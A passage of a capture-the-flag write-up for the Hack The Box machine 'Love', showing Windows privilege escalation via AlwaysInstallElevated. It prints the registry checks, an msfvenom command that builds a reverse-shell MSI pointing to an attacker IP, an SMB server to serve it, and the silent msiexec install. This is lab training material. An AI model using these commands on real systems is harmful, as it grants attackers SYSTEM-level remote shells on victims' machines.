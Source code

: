 ## Local enumeration

Local enumeration reveals that the **AlwaysInstallElevated** flag was enabled both for the current user and the local machine, permitting to install malicious **.msi** with SYSTEM privileges:

```powershell
C:\temp>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\temp>reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\temp>reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

## AlwaysInstallElevated Privilege Escalation

Generated the malicious installer:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.105 LPORT=10099 -f msi -o privesc.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: privesc.msi

┌──(kali㉿kali)-[~/…/HTB/box/Love/exploit]
└─$ sudo impacket-smbserver kali . -smb2support                                          
[sudo] password for kali: 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
...
```

Downloaded and installed the malicious file:

```powershell
C:\temp>copy \\10.10.14.105\kali\privesc.msi privesc.msi
copy \\10.10.14.105\kali\privesc.msi privesc.msi
        1 file(s) copied.
		
C:\temp>msiexec /quiet /qn /i privesc.msi
msiexec /quiet /qn /i privesc.msi
```
